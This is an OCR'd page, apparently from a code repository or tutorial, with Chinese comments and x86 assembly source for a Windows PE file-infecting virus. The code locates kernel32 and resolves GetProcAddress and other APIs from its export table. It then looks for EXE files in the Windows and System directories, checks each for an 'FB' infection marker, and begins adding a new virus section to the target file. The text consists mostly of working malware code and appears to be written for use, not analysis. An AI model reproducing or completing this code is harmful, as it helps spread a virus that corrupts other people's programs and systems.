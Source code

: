 ```asm
  cmp   word ptr[edi],'EP' ;//确认是否PE文件头
  jnz   short LoopFindKernel32      ;esi->kernel32,edi->kernel32 PE HEADER
  ;/////////////////////////////////查找GetProcAddress函数地址
  mov vKernel32[ebp],esi

; 获得GetProcAddress函数地址
; 获取导出表地址
GetPeExportTable:
   mov   ebx,[edi+78h];4+14h+60h
   add   ebx,vKernel32[ebp]      ;//得到输出函数表
   mov   vExportKernel[ebp],ebx  
   ; 准备查找目标函数名（"GetProcAddress"）
   push 14
   call aGetProcAddr
   db "GetProcAddress",0
aGetProcAddr: 
  lea  eax,GetApiAddress[ebp]
  call eax
  or eax, eax        ; 判断是否成功
  jz ExitTimes       ; 如果返回值为0，说明查找失败，跳到 ExitTimes
  mov vGetProcAddress[ebp], eax ; 保存 GetProcAddress 的地址

; 获取Kernel32其他函数地址
  lea esi,bGetModuleHandle[ebp]
  lea edi,vGetModuleHandle[ebp]
  cld
ComeOn:
  lodsd; //mov eax，[esi]，esi=esi+4
  add eax,ebp
  push eax
  push vKernel32[ebp]
  call dword ptr vGetProcAddress[ebp]
  or eax,eax
  jz ExitTimes
  stosd; //mov  dword ptr es:[edi],eax, edi=edi+4
  cmp dword ptr[esi],0
  jnz ComeOn
```

利⽤ API 查找感染⽬标

1. 获取当前程序所在⽬录
2. 保存当前⽬录
3. 获取 Windows 所在的⽬录，并将其设为当前⽬录
4. 获取 System 所在⽬录，并将其设为当前⽬录
5. 查找当前⽬录下的第⼀个 EXE ⽂件

```asm
; 判断目标程序是否为合法 PE 文件，并且检查其是否已经被感染（标记为“FB”）
mov ebx, eax
assume ebx :ptr IMAGE_DOS_HEADER
mov eax,[ebx].e_lfanew	;  获取 PE 头偏移
test eax,0fffff000h
jnz  EndDir  ;Header+stub不可能太大,超过4096byte 
mov pe_header_off[ebp],eax
add ebx,eax ;此时ebx指向PE文件头
assume ebx:ptr IMAGE_NT_HEADERS
cmp [ebx].Signature,IMAGE_NT_SIGNATURE
jnz UnMap
cmp word ptr[ebx+1ah],’FB’ ;是否已经感染 

; 准备为病毒添加一个新节到目标 PE 文件
movzx eax,[ebx].FileHeader.NumberOfSections ;文件的节数
mov ecx,28h ; 每个节表的长度
```